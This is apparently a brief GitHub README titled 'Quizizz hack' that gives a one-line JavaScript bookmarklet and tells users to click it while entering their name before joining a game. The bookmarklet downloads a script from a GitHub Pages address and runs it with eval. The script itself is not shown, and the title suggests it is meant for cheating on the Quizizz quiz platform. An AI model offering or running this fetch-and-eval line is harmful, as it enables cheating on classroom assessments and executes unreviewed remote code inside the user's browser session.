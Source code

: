 # Quizizz hack
## Bookmarklet
`javascript:fetch('https://thatfrueddued.github.io/JustSomeRandomFiles/GamerHax/Quizizz/Quizizz.js').then(function(response){response.text().then(function(text){eval(text);});});`  
  
Click this bookmarklet before you join a game, when you are entering your name.
